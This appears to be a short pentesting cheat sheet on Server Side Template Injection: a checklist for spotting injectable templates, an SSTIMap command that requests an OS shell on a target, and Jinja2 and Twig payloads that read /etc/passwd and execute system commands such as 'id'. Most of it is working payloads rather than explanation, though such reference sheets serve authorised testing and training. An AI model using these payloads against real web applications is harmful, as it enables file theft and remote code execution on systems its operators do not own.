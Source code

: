 Server Side Template Injection
- [ ] Reflection of user input
- [ ] Identify template engine
	- [ ] Known payload found in application
	- [ ] Enumerate with template engine failure (reference to nonexistent object)
- [ ] Attempt to return class object, read file then RCE
-  Automation tool: SSTIMap
```bash
python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell
```
***Detection***
```bash
${{<%[%'"}}%\.
```
### Python
***Jinja2***
```jinja2
{{ 7*7 }}
{{settubgs}}
{% debug %}
{{ self.__init__.__globals__.__builtins__ }}
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
### PHP 
***Twig***
```twig
{{ 7*7 }}
{{ _self }}
{{ "/etc/passwd"|file_excerpt(1,-1) }}
{{ ['id'] | filter('system') }}
```